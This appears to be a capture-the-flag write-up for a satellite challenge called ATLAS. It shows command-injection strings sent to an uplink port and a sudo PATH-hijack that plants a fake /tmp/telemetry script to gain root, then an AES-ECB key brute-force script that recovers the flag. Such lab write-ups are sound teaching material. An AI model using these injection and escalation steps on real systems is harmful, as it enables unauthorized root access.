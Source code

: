 ## ATLAS

Atlas is a satellite, so depending on its position with respect to the groundstation, the signal varies and message reception times increase/decrease.

We have the downlink on port 5001, where we receive messages. The uplink is on 5000, from which we can send messages to the satellite.


### From the UPLINK port

We see that the satellite accepts some commands, such as 'id'. It is possible to perform command injection in different ways to obtain a larger set of commands.

Just an example:
`id; ls -la`

after some quick checks on the operating system, we discover via `sudo -l` that we can execute some commands as sudoers (e.g. network.py telemetry, network.py broadcast). We also notice that no `secure_path` is set.

`secure_path` in the sudoers file defines the explicit paths where executables can be executed with sudo.

```
com ALL=(ALL) NOPASSWD: /usr/bin/python3 /opt/network.py telemetry
com ALL=(ALL) NOPASSWD: /usr/bin/python3 /opt/network.py broadcast
```

Great, telemetry and broadcast are binaries calledy by network.py. So why not use our version of 'telemetry'?

```shell
id;echo '#!/bin/bash' >/tmp/telemetry;
id; ls -la /root
id;chmod +x /tmp/telemetry
id;export PATH=/tmp:$PATH;sudo /usr/bin/python3 /opt/network.py telemetry
```

Ok, it works and we can run commands as `root`. Inside the `/root` directory we have the `core` binary. If we try to run it it asks us for an `identifier`. Will it be the govGPT agent that we need to deploy?

```shell
id;echo '/root/core E071119BFC83EF5C84AF01DEC888940CB191B8C006A10F130E7D0D5CF34D6C8A' >>/tmp/telemetry
id;chmod +x /tmp/telemetry
id;export PATH=/tmp:$PATH;sudo /usr/bin/python3 /opt/network.py telemetry
```
The output:

```
AES ECB 256 recognized.
Identifier Accepted. Welcome Dave.
Processing the AI instructions...
Habitable island identified (2% reliability): ckn5qI7NsMNRMCHB2ULLoobpoWdD087b
Habitable island identified (2% reliability): 33aQRdcUF988hVQ83js43jqe9H84vLc8
Habitable island identified (2% reliability): EUnpg4h5EQ9r025hM0754eT7WSh5KK9t
Habitable island identified (2% reliability): fzaAHTA6DzaEjj6KNNG6L5IGBDCg3vmI
Habitable island identified (2% reliability): 66nzwo174UJD2c7ZacBzC67VsalDo21l
Habitable island identified (2% reliability): HJa0X7285d22ZJc2bDicT78w3lG8DRwA
Habitable island identified (2% reliability): ionXm8r9c4bduClf8s1TwIdlAw396QHd
Habitable island identified (2% reliability): 99awNNK0bhwQ57uI95WWnDs2rhwghbgS
Habitable island identified (2% reliability): KYnHciP1O6F5wqR5CWR10kVN605DW6Rv
Habitable island identified (2% reliability): ldagD162NZ6q7jAoDly21f2CZ1aM9XqK
Habitable island identified (2% reliability): 22n5sYb30ixpMQJRq85h2a3dq2V3aWB7
Habitable island identified (2% reliability): NNaETtgo1DGChJ48rPMkB3q6938gPh8C
Habitable island identified (2% reliability): osndi4Zv2mB9O25x4eHBS4f70IZD20L9
Habitable island identified (2% reliability): 55aOJ50cl10cjx6A51oEv5IUDT0MtD0U
Habitable island identified (2% reliability): QCnnySljkqtP2qv1SI97mEXJuEp7ICV1
Habitable island identified (2% reliability): rha0ZnqqX3C2ZXegTxC8dZ8k3P2g5n2M
Habitable island identified (2% reliability): 88nLo8JxWI334QnJgYjp8gd1Cmtpm4r3
Habitable island identified (2% reliability): TRakPD4e754oB7K4hnes9bs2txOMB54E
Habitable island identified (2% reliability): uwnVey5l8MpBw8Tp063JAwVB6i518Ib5
Habitable island identified (2% reliability): 11auF1as9vY67xCS1RSMR1KQBtSgTt6i
Habitable island identified (2% reliability): WGn5u2TNuQ7byEL7Igz3I23rG27p08l7
Habitable island identified (2% reliability): xlaS9XYUtzqO9X4yv9u4l346x3iMx9Wa
Habitable island identified (2% reliability): 44nrks9BG0lNO25BwK75cAf70495MOv9
Habitable island identified (2% reliability): ZVaC15kIFdU0j3605zIa5VuIF5m63zGs
Habitable island identified (2% reliability): aa7baIpP421nQex162pd6QXXwUHpq2f1
Habitable island identified (2% reliability): 77803dIW5VmAlLgwXDkU7x8y3F2MF3Qk
Habitable island identified (2% reliability): CK9Zqm3De4V34EpZYs1XQs91EQL96U3Z
Habitable island identified (2% reliability): dp02594KdZQaB7M4lTY0H9s2vB40jfAc
Habitable island identified (2% reliability): 001JgCzRci5z68Vfmif1k0hPaybpYe5R
Habitable island identified (2% reliability): FZ2i7xS2PDiMDlEI17aib1KE7j6M97Ku
Habitable island identified (2% reliability): ge35w2X3OmR7yS372M5lsWZfIufVcA7J
Habitable island identified (2% reliability): 3x4G9N84198m9L4oNbOC3R46zfA4Rlgm
Habitable island identified (2% reliability): I457mij52q9ZO25RO0vF4Mf7049p2k9B
Habitable island identified (2% reliability): jH6Q1ro6n1e013q0bFq6PtuWH5Eyv1q0
Habitable island identified (2% reliability): 6m7pc6H7mIN1Qszxcu97GoXxy61VKG1T
Habitable island identified (2% reliability): L7803H28Z32ylZiA73EqX7Mm37u85ra2
Habitable island identified (2% reliability): mW9Nsc39YMfL4SF38Ylta891GG3poqLL
Habitable island identified (2% reliability): 9b0259y0Xva4n7OgDngKr902LRyyD5k4
Habitable island identified (2% reliability): O01XiSRl8QJl68XJEO3N0ShDcCTV8MVD
Habitable island identified (2% reliability): pL2w7B6s9z6YDz26rdUQ1Nwe7N62hLu6
Habitable island identified (2% reliability): 2q35yw7zw8bXys3ps8b32IZtKkX3WwFh
Habitable island identified (2% reliability): R34U93igvdK8FZ4S3H64Fp46bv8y1988
Habitable island identified (2% reliability): sA57oMBnI0Fxa2j94w7bWk570gnVaSPz
Habitable island identified (2% reliability): 5f6E1hGuHV0K13syT1KezfuKJrI63R00
Habitable island identified (2% reliability): U67de61bG2x1QgbBUArVq6jla6r7scZr
Habitable island identified (2% reliability): vP803Xsi5ZGk3zkQhp0Yh7Maf7MyH322
Habitable island identified (2% reliability): 8u9BIGxp6i3jSGH3i4198OB1483V6Yvj
Habitable island identified (2% reliability): X9025bQKfD4Wn7Qw9TA09J02N9QElX4Y
Habitable island identified (2% reliability): yE1LY05Remt568ZZIihjEE1ReS51Aifb
Habitable island identified (2% reliability): 1j2k7R6YR7Cwpn26JJ4mVlws7Dgy976Q
```
So, we know that we have 50 possible island with 2% of reliability. Another important note: `AES ECB 256`. We need a string and a secret?

Let's write a decoder.py

```python
import sys
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import binascii

def decrypt_aes_ecb(key, ciphertext):
    backend = default_backend()
    cipher = Cipher(algorithms.AES(key), modes.ECB(), backend=backend)
    decryptor = cipher.decryptor()
    plaintext = decryptor.update(ciphertext) + decryptor.finalize()
    return plaintext

def main():
    if len(sys.argv) != 3:
        print("Usage: python script.py <keys_file> <string_AES_ECB_256_HEX>")
        return

    keys_file = sys.argv[1]
    ciphertext_hex = sys.argv[2]

    try:
        with open(keys_file, 'r') as f:
            keys = f.readlines()
    except FileNotFoundError:
        print("Keys file not found")
        return

    try:
        ciphertext = bytes.fromhex(ciphertext_hex)
    except ValueError:
        print("No valid encrypted string")
        return

    for key in keys:
        key = key.strip()
        try:
            plaintext = decrypt_aes_ecb(key.encode('utf-8'), ciphertext)
            print(f"Key found: {key}")
            print("Plaintext:", plaintext.decode('utf-8'))
            return
        except Exception:
            pass

    print("No key found")

if __name__ == "__main__":
    main()
```

Let's try the decoder with the list of keys:

```shell
python3 decoder.py keys_file E071119BFC83EF5C84AF01DEC888940CB191B8C006A10F130E7D0D5CF34D6C8A
Key found: ckn5qI7NsMNRMCHB2ULLoobpoWdD087b
Key found: 33aQRdcUF988hVQ83js43jqe9H84vLc8
Key found: EUnpg4h5EQ9r025hM0754eT7WSh5KK9t
Key found: fzaAHTA6DzaEjj6KNNG6L5IGBDCg3vmI
Key found: 66nzwo174UJD2c7ZacBzC67VsalDo21l
Key found: HJa0X7285d22ZJc2bDicT78w3lG8DRwA
Key found: ionXm8r9c4bduClf8s1TwIdlAw396QHd
Key found: 99awNNK0bhwQ57uI95WWnDs2rhwghbgS
Key found: KYnHciP1O6F5wqR5CWR10kVN605DW6Rv
Key found: ldagD162NZ6q7jAoDly21f2CZ1aM9XqK
Key found: 22n5sYb30ixpMQJRq85h2a3dq2V3aWB7
Key found: NNaETtgo1DGChJ48rPMkB3q6938gPh8C
Key found: osndi4Zv2mB9O25x4eHBS4f70IZD20L9
Key found: 55aOJ50cl10cjx6A51oEv5IUDT0MtD0U
Plaintext: NTRLGC{TH3_54Y5H3LL5_15L4ND5}
```

